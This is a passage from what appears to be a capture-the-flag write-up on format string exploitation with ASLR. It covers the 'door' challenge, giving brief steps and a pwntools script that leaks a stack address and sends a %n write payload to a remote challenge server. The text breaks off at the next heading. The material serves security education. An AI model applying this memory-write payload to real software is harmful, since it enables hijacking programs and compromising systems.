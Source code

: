 ```yaml
---
title: "%X%x**ASLR**%x%X"
date: "2020-07-05 16:10:31.582772"
description: "Exploiting format string vulnerabilites, but with ASLR turned on this time"
tags: ["Code", "Binary Exploitation"]
---
```


## door

---

FLAG{REDACTED}

---

_A pretty simple fmt string exploit. I'm not too sure why the secret phrase to the door is **APES** though._

How to do it?

1. Write 4 bytes onto the stack, specifically, the 2nd position on the stack.
2. There is an if statement which compares a variable (with value '9447') with 'APES'. Now, if I edit the variable, I can get past the if.
3. 1 byte of padding: `b'A'` makes perfect

Here's some points I realized once I had completed it

1. Pushing all addresses onto the stack is a great idea, which would then mean I can access addresses on the stack contiguously (unlike the way I did here)

```
#!/usr/bin/python3

from pwn import *

#p = process('./door')
p = remote('plsdonthaq.me', 4001)

p.readuntil('way at ')
ptr = int(p.readuntil('\n', drop=True), 16)
ptr1 = p32(ptr)
ptr2 = p32(ptr + 1)
ptr3 = p32(ptr + 2)
ptr4 = p32(ptr + 3)

l1 = ptr1 + b'%60x%2$n' + ptr1 + ptr2 + b'       %6$n ' + ptr3 + ptr4 + b'%236x%10$n%14x%11$n'

p.sendline(b'A' + l1)
p.interactive()
```

## snake

---